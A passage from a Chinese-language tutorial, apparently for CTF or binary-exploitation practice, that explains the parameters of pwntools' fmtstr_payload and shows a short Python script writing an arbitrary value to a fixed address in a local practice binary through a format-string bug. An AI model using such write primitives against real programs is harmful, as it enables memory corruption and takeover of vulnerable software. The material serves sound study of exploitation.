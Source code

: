 ![res3.png](./assets/fmtstr-res3.png)

##### 使用 fmtstr_payload 构造 payload

fmtstr_payload 函数有如下参数

- **offset**(int): 控制的格式化字符串的第一个偏移
- **writes**(dict): 带有地址和对应值的字典 ``{addr: value, addr2: value2}``
- **numbwritten**(int): printf 函数已写入的字节数
- **write_size**(str): 必须为“byte”、“short”或“int”，告诉函数如何逐字节写入
- **overflows**(int): 允许多少额外溢出，用于减少格式化字符串的长度
- **strategy**(str):  'fast' 或 'small' , 默认为 small，fast 可用于有很多写入时 
- **no_dollars**(bool): 使用或不使用 $ 符号生成有效负载的标志

除 offset 和 writes 外通常省略，例如给 b 写入 0x12345678：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level='debug')

p = process('./fmtstr')

payload = fmtstr_payload(6,{0x804C01C:0x12345678})

p.sendline(payload)
~~~
